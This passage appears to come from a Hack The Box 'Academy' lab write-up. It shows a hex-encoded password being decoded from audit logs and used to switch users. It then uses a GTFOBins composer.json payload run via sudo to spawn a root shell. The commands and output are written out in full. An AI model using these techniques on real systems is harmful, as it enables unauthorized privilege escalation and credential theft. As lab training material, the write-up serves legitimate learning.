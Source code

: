 ## Privilege Escalation to mrb3n
Let's execute the Linpeas script again to look for privilege escalation vectors. In the output, we were able to discover that TTY passwords belonging to ```mrb3n``` was logged in the audit logs. However, the recorded password was in a hexadecimal format, and we would need to convert it to a string.

![audit logs](https://github.com/joelczk/writeups/blob/main/HTB/Images/academy/audit_logs.PNG)

```
┌──(kali㉿kali)-[~]
└─$ echo 6D7262336E5F41634064336D79210A | xxd -r -p                                
mrb3n_Ac@d3my!
```

Now, we will su into the ```mrb3n``` user and stabilize the shell. 

```
cry0l1t3@academy:/var/log/audit$ su mrb3n
su mrb3n
Password: mrb3n_Ac@d3my!

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
mrb3n@academy:/var/log/audit$ export TERM=xterm
export TERM=xterm
mrb3n@academy:/var/log/audit$ stty cols 132 rows 34
stty cols 132 rows 34
mrb3n@academy:/var/log/audit$ 
```

### Privilege escalation to root
Next, we will use ```sudo -l``` to find the programs that can be executed as a root without any password. From the output, we discovered that we can execute ```/usr/bin/composer``` with root privileges without any password. 

```
mrb3n@academy:/var/log/audit$ sudo -l
sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Using [GTFO bins](https://gtfobins.github.io/gtfobins/composer/), we realize that we can escalate our privileges to ```sudo`` user using ```/usr/bin/composer```

```
mrb3n@academy:/var/log/audit$ TF=$(mktemp -d)
TF=$(mktemp -d)
mrb3n@academy:/var/log/audit$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/var/log/audit$ sudo /usr/bin/composer --working-dir=$TF run-script x
sudo /usr/bin/composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
```